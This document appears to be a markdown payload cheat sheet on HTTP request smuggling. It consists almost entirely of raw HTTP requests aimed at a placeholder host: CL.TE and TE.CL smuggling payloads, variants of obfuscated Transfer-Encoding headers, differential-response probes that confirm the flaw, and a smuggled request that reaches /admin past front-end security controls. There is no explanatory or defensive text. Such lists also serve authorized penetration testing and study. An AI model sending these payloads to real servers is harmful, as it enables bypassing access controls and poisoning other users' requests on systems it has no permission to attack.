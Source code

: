 # HTTP Request Smuggling Payloads

## CL.TE Payload
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

## TE.CL Payload
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0


```

## Obfuscate TE header
```http
Transfer-Encoding: xchunked
```

```http
Transfer-Encoding: chunked
```

```http
Transfer-Encoding: chunked
Transfer-Encoding: x
```

```http
Transfer-Encoding:[tab]chunked
```

```http
[space]Transfer-Encoding: chunked
```

```http
X: X[\n]Transfer-Encoding: chunked
```

```http
Transfer-Encoding
: chunked
```

## Confirming CL.TE vulnerabilities using differential responses
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

## Confirming TE.CL vulnerabilities using differential responses
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0


```

## Using HTTP request smuggling to bypass front-end security controls
```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```